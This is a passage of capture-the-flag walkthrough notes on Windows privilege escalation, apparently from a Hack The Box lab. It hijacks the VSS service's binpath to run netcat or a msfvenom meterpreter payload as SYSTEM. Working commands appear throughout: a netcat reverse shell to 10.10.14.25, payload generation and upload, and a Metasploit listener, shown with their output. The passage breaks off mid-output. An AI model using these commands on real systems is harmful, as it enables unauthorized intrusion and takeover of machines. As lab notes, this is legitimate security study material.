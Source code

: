 ---------------------------------------------------------------------------------
---ON-LOCAL-MACHINE---
nc -lvnp 9999

---OUTPUT---
listening on [any] 9999 ...
connect to [10.10.14.25] from (UNKNOWN) [10.10.11.108] 59439
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
	- But the shell is not stable and we disconnect after some time.
		- Why does this happen? (answer based on 0xdf notes)
			- when a service fails to run, it gets killed eventually.
			- If we pass a command that points to the command line itself and then executes netcat with the command line, we can avoid this timeout:
				```bash
sc.exe config VSS binpath="C:\windows\system32\cmd.exe /c C:\temp\nc.exe -e cm
d 10.10.14.25 9999"
sc.exe stop vss
sc.exe start vss

---OUTPUT-1--
[SC] ChangeServiceConfig SUCCESS

---OUTPUT-3---
<Nothing>
```
				- This time our Reverse Shell won't time out.
- Alternatively,we can use meterpreter to get a more stable shell but first getting access and then migrating to another process. First we create our executable which will reach out to our meterpreter
	```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=1337 -f exe > shell-x86.exe
```
	- We uplaod this shell to our target via our winrm session:
		```bash
upload shell-x86.exe
```
- We then create our metasploit lsitener and configure it for a reverse shell:
	```bash
msfconsole
use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.25
msf6 exploit(multi/handler) > set LPORT 9999
msf6 exploit(multi/handler) > run

---OUTPUT---
[*] Started reverse TCP handler on 10.10.14.25:9999
```
- Then on our target, we configure the vss service to point to our executable be uploaded (which will reach to our listener)
	```bash
sc.exe config vss binPath="C:\temp\shell-x86.exe"
sc.exe stop vss
sc.exe start vss
```
- We get a hit on our meterpreter listener. We then check out the running services and migrate to one owned by "NT authority/system"
	```bash
[*] Sending stage (177734 bytes) to 10.10.11.108